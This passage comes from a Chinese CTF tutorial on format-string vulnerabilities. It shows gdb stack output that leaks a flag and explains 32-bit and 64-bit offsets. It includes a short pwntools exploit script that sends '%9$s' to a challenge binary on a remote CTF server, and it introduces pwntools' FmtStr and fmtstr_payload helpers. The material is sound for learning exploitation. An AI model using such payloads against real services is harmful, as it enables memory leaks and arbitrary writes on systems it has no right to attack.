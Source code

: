 >05:0028│      0x7fffffffde40 ◂— 0x6d61697b67616c66 ('flag{iam')
>06:0030│      0x7fffffffde48 ◂— 0x416d726564695053 ('SPidermA')

的偏移，直接得到栈上的数据的十六进制表示【解析值】。

同时还要注意，64-bit下的偏移是8字节的偏移为基准的，因此用%s解析8字节地址和%llx解析8字节值都很合适<u>【如果只需要4字节的量，那就先获得8B的值再截取】</u>。而32-bit下的偏移是4字节的偏移为基准的，因此用%s解析4字节地址和%x解析4字节值都很合适。

#### 利用程序

```PYTHON
from pwn import *
from LibcSearcher import *
goodluck = ELF('./goodluck')
if args['REMOTE']:
    sh = remote('pwn.sniperoj.cn', 30017)
else:
    sh = process('./goodluck')
payload = "%9$s"
print payload
##gdb.attach(sh)
sh.sendline(payload)
print sh.recv()
sh.interactive()
```

#### 总结

32-bit和64-bit两者大同小异，都可以通过格式化字符串的漏洞来解析得到栈上的数据【在对应栈帧的返回地址的高地址方向（参数区）的数据都可以泄露】，只是根据偏移的单位用对应的大小更为合适。并且64bits的偏移还需要加上6（或者说5）。

同时还需要注意64-bit的格式化字符串漏洞并不能实现对参数寄存器的写【但是可以实现对参数寄存器的读】。

## 五、pwntools相关模块的使用

对于格式化字符串漏洞，pwntools有模块fmtstr

docs地址：http://pwntools.readthedocs.io/en/stable/fmtstr.html

对于这个模块，我只能说建议手写，至少你要懂原理才去用这个模块，不然就是脚本小子。

例如之前测试某个程序格式化字符串的偏移位置时，我们是采用手动测试，直到输出字符串前4字节的16进制值为止。pwntools则有函数**FmtStr**。

首先你要自己写一个函数，能够不断输入格式化字符串来测试。

```python
#pwntools的示例
>>> def exec_fmt(payload):
...     p = process(program)...     p.sendline(payload)
...     return p.recvall()
...
>>> autofmt = FmtStr(exec_fmt)
>>> offset = autofmt.offset
#此处的offset就是我们需要找的偏移值
```

生成任意地址写的payload的函数：**fmtstr_payload**
